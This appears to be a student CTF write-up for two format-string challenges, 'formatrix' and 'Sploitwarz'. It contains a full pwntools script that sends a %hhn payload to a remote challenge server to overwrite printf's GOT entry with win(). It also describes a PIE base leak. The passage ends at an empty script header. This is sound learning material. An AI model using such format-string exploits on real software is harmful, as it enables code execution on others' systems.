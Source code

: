     The exploit is to simply overwrite the entry for print() in the GOT with the function pointer for win()
    
    This was pretty similar to what we did in the lab.
==========================================================
Script used:
    #!/usr/bin/python

    from pwn import *

    # p = process("./formatrix")
    p = remote("plsdonthaq.me", 4003)

    win    = 0x08048536 # the address of the win function
    printf = 0x08049c18 # the address of the printf function
    distance = ((0x620 - 0x210) / 4) - 1

    p.recvuntil("say:")

    payload = b""
    payload += p32(printf + 0)
    payload += p32(printf + 1)
    payload += p32(printf + 2)
    payload += p32(printf + 3)
    payload += b"%240c"

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += b"%{}$hhn".format(distance + i)
        else:
            payload += b"%{}c%{}$hhn%{}c".format(byte, distance + i, 256 - byte)

    p.sendline(payload)

    p.interactive()

==========================================================


==========================================================
Sploitwarz
==========================================================
Comments:
 1. Exploited a vulnerability with the printf after winning the gamble game.
 2. It would print out a value of the stack if given the arguments, the third value
    on the stack was (0x565...) which was the binary base with pie enabled, so I used to gdb to find the offset of do_gamble from the leaked address (info address do_gamble), and used binary_ninja to find the offset of the do_gamble function from the binary base
 3. After this I used this binary base (from subtracting the two offsets from the address) to
    find the address of the win() and printf() functions (added their offsets again from binary ninja to the binary base)
 4. Finally I had to use a similar payload as formatrix to overwrite the printf() GOT entry 
    with the win() function, I found out the format string was in the 9th argument on the stack, however I couldn't work out why using the offset 9 wasn't working, so I was unable to get the flag unfortunately.
==========================================================
Script used:
    #!/usr/bin/python
